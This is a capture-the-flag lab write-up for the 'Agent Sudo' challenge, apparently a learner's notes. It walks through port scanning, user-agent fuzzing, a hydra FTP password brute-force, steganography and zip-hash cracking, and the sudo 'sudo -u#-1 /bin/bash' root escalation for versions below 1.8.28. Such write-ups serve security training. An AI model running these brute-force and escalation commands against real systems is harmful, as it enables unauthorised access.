# Agent Sudo
### You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.
#### Level: Easy

## Task 1 - Author note
The easiest: I deployed successfully the machine.

## Task 2 - Enumerate
### How many open ports?
I started with a Nmap scan and found 3 open ports:
```bash
nmap 10.112.144.229 -Pn -T4                                                                                                           
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 17:39 +0200                                                                          
Nmap scan report for 10.112.144.229                                                                                                        
Host is up (0.025s latency).                                                                                                               
Not shown: 997 closed tcp ports (reset)                                                                                                    
PORT   STATE SERVICE                                                                                                                       
21/tcp open  ftp                                                                                                                           
22/tcp open  ssh                                                                                                                           
80/tcp open  http          
```

### How you redirect yourself to a secret page?
After founding the port 80 open, I visited the respective webpage and found an interesting message:


I'm not gonna lie, this took me a couple of minutes to realize what the message was underlying (lol)

### What is the agent name?
My *agent codename* was yet unknown, so I started by curling the page with Agent **R** codename as user-agent:

```bash
curl -A 'R' http://10.112.144.229/                            
What are you doing! Are you one of the 25 employees? If not, I going to report this incident           
<!DocType html>                                                                                        
<html>                                                                                                 
<head>                                                                                                 
        <title>Annoucement</title>                                                                     
</head>                                                                                                
                                                                                                       
<body>                                                                                                 
<p>                                                                                                    
        Dear agents,                                                                                   
        <br><br>                                                                                       
        Use your own <b>codename</b> as user-agent to access the site.                                 
        <br><br>                                                                                       
        From,<br>                                                                                      
        Agent R                                                                                        
</p>                                                                                                   
</body>                                                                                                
</html>     
```
Since the employees are 25 (with Agent R probably being 26), the codenames are probably the alphabet letters.  

I curled the page with the first letters (A, B, C, D) as user-agent and then, since I got no results, I did a quick Burpsuite Intruder Attack and realised something:  
I forgot the `-L` in the curl command! If I didn't, I would've found out pretty earlier that `'C'` was the right `user-agent`:

```bash
curl -A "C" -L 10.112.144.229                                                                     
Attention REDACTED, <br><br>                                                                    
                                                                                                       
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>                                                                              
                                                                                                       
From,<br>                                                                                              
Agent R   
```

## Task 3 - Hash cracking and brute-force
### FTP password
Knowing the agent name, I attempted a brute-force attack using `hydra` against the FTP login: 
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.112.144.229 ftp                             
#...                                                                                             
[DATA] attacking ftp://10.112.144.229:21/                                                              
[21][ftp] host: 10.112.144.229   login: chris   password: REDACTED                                      
1 of 1 target successfully completed, 1 valid password found            
```

After obtaining the password, I logged in, checked the directory and downloaded everything:


The files included two images and a text file with interesting content:
```bash
Dear agent J,                                                                                          
                                                                                                       
All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.                    
                                                                                                       
From,                                                                                                  
Agent C      
```

### steg password, Who is the other agent (in full name)?, SSH password
Given the Challenge questions order, the `steg password` was not in first position (and I later understood also why) but it was the first thing I tried:
- Used `steghide` on all three files and found an embedded file in `cute-alien.jpg`, but passphrase protected.
- I tried cracking it with `stegseek` and it actually worked:
```bash
stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt                                         
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek                                                  
                                                                                                        
[i] Found passphrase: "REDACTED"                                                                          
[i] Original filename: "message.txt".                                                                   
[i] Extracting to "cute-alien.jpg.out".         
```

`message.txt`content:




This way three questions were answered pretty quick!

### Zip file password
Last question open for Task 3:
- I used `binwalk` and successfully found a zip file into `cutie.png`  



- After extracting the zip file with `binwalk cutie.png -e`, I tried unzipping it but found out soon enough that the archive was encrypted.  



In order to proceed, I took following steps:
- I extracted the archive's password hash with `zip2john`
- Used `john` to dictionary attack the hash
- Hash successfully cracked!



Another interesting text file:



The string `REDACTED` looked definetely encoded. I tried different ROT but nothing. Base64 was the right encoding. Ironically, this string was the steg password previously cracked with `stegseek`.

## Task 4: Capture the user flag
### What is the user flag?
I attempted successfully a ssh connection using James credential, checked my *surroundings* and found two files:
- Alien_autopsy.jpg
- user_flag.txt



- [x] Flag Obtained

### What is the incident of the photo called?
I did a reverse search image with the `Alien_autopsy.jpg` and found in one of the description the full name of the *incident*.

## Task 5: Privilege escalation
### CVE number for the escalation 
I started by checking my permissions:



James appeared blacklisted from running `/bib/bash` as `root`.  

I googled this line and checked the first result, **Exploit Database**.

Summarized: In this CVE, Privilege Escalation to root is possible, if Sudo Version `<1.8.28`, with following command:
```bash
sudo -u#-1 /bin/bash
```
- `-u` specifies the user
- `#` provides a UID instead of a username 

By specifiying a UID of `-1`, the condition of non being root, `(!root)`, is met and therefore it goes through. Moreover, in this sudo version, the `-1` is treated as `0`, bypassing the blacklist and escalating infact to a root shell.

Since here sudo version was `1.8.21p2`:



...the escalation from `james` to `root` worked flawlessly.



### What is the root flag?, Who is Agent R?
After privilege escalation, I changed directory to `/root/` and found a file `root.txt` containing both the flag and the identity of Agent R, completing this challenge.




[<-- Home](/README.md)